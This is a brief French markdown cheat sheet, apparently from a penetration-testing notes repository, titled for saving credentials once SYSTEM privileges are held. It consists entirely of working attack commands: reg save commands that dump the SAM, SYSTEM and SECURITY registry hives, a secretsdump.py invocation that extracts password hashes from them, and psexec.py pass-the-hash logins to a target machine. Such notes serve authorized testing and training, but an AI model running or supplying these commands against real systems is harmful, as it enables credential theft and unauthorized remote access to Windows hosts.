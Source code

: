 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sauvegarde des credentials quand on est system
```shell
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```